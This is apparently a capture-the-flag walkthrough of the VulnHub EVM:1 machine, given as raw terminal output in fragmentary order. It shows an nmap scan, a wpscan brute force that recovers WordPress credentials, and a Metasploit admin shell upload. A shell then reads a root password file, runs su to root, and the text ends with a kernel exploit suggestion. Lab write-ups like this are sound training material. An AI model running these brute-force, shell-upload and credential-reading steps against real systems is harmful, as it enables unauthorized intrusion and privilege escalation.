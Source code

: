https://www.hackingarticles.in/evm-1-vulnhub-walkthrough/

Available information:

Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 16.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS



└─$ sudo nmap -sT -A -T4 -Pn -n  -p- 10.0.1.49
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-07 11:55 CEST
Nmap scan report for 10.0.1.49
Host is up (0.00053s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA PIPELINING UIDL TOP SASL AUTH-RESP-CODE RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: Pre-login LOGINDISABLEDA0001 listed LOGIN-REFERRALS ENABLE more have SASL-IR IDLE capabilities ID LITERAL+ OK post-login IMAP4rev1
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:2F:38:D0 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m57s, deviation: 2h18m33s, median: -2s
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2021-04-07T05:55:26-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-07T09:55:26
|_  start_date: N/A




└─$ wpscan --url http://10.0.1.49/wordpress/ -e u -P /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.15
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
[+] URL: http://10.0.1.49/wordpress/ [10.0.1.49]
[+] Started: Wed Apr  7 21:52:38 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.0.1.49/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://10.0.1.49/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.0.1.49/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.0.1.49/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.4 identified (Insecure, released on 2019-10-14).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.0.1.49/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.2.4'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.0.1.49/wordpress/, Match: 'WordPress 5.2.4'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <========================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] c0rrupt3d_brain
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0rrupt3d_brain / 24992499                                                                                                                
Trying c0rrupt3d_brain / 757575 Time: 00:01:38 <                                                            > (10700 / 14355092)  0.07%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Apr  7 21:55:19 2021
[+] Requests Done: 10715
[+] Cached Requests: 38
[+] Data Sent: 3.719 MB
[+] Data Received: 48.293 MB
[+] Memory used: 178.719 MB
[+] Elapsed time: 00:02:40
                                        



exploit/unix/webapp/wp_admin_shell_upload


http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/page.php


www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .root_password_ssh.txt
<ulnerable-m4ch1ine:/home/root3r$ cat .root_password_ssh.txt                 
willy26
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su
su
Password: willy26

root@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r# 



[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

